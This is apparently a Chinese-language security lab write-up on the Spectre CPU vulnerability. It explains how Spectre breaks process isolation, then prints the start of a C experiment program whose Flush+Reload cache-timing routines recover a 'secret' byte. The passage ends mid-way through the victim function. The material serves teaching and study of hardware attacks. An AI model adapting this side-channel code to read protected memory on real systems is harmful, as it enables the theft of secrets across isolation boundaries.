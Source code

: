 # Spectre漏洞基本利用

这个漏洞也是2017年发现，2018年1月公开的，在Intel、AMD和ARM等处理器上都存在。  
漏洞允许程序打破进程间（硬件保护的）和进程内（软件保护的）的隔离机制，恶意程序可以读取未授权数据。同样，由于漏洞
存在于硬件中，很难从根本上解决问题，除非换掉CPU。

!!! 声明

    这个实验虽然Intel、AMD和ARM上都存在，但是目前只测了Intel的，并且Intel也在不断解决这些问题，可能最新的
    CPU已经没有这个问题，截止2021年5月份问题还是广泛存在。

task1、task2和Meltdown一模一样。

## task3: 乱序执行和分支预测

乱序执行原理和meltdown中task6描述一样

SpectreExperiment.c如下：
```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

#define CACHE_HIT_THRESHOLD (150)
#define DELTA 1024

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;

  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
	printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d.\n", i);
    }
  } 
}

void victim(size_t x)
{
  if (x < size) {  
```